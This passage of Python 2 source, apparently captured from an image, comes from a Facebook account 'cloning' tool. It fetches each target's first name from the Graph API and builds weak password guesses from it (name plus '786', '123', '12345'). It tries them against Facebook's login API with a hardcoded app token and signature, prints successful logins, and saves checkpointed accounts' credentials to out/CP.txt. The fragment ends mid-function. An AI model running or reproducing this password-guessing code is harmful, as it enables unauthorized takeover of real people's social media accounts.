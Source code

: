 	
	print "\033[1;36;40m[✺] Total IDs : \033[1;97m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m        ❈     \033[1;97mTo Stop Process Press CTRL+Z \033[1;97m    ❈"
	print "   \033[1;31;48m●💋══════════════════◄►══════════════════💋●"

	jalan('                    \033[1;97mAbdul Jabbar start cloning Wait...')
	print  "  \033[1;36;48m ●💋══════════════════◄►══════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q: